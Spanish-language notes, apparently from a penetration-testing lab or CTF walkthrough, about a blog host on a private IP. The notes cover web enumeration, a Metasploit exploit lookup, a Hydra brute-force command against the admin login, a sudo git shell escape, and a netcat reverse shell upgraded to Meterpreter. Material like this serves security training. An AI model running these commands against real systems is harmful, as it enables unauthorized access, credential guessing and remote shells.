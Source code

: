 nikto --url http://10.0.2.55/

dirbuster de archivo, y carpetas recrusivo de extensión php con 180 threads

AO THEME BIBBLEBLOG
enumerar el cms viendo

`Utilizar exploit en metaexploit buscado en serachsploit
php/remote/38489.rb
searchsploit -x 38489 (ver descripción del exploit)

http://10.0.2.55/my_weblog/admin.php

## Hydra fuerza bruta

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.55 http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -t 64 -F
(ultimo field incorrect,wrong o cualquier display que haya en el mensaje de erorr)"

http-post-form: ruta absoluta del panel de inicio de sesión, usuario y contraseña, string contenida dentro del panel para verificar el cambio de estado 404 a 203
-l Especificar unico usuario
-L Diccionario de usuarios
-p Especificar contraseña usuario unico
-P Diccionario de contraseñas


![[Pasted image 20240312200618.png]]

Aprocecharse del fichero sudoers. para utilizarlo, como el usuario correspodientee ejemplo comando git, buscado en ctfbins

sudo -u admin git -p help config
!/bin/bash
![[Pasted image 20240312202916.png]]

## F9 PARA ABRIR OPCIONES DENTRO DE UN SCRIPT

![[Pasted image 20240312203203.png]]

## Pivoting con metaexploit

msfconsole 
use multi/handler
run
nc 10.0.2.55 443 -e /bin/bash

Ctrl + z

sessions

use post/multi/manage/shell_to_meterpreter
options
set LHOST (IP ATACANTE)
set lport 443
set session 1
run

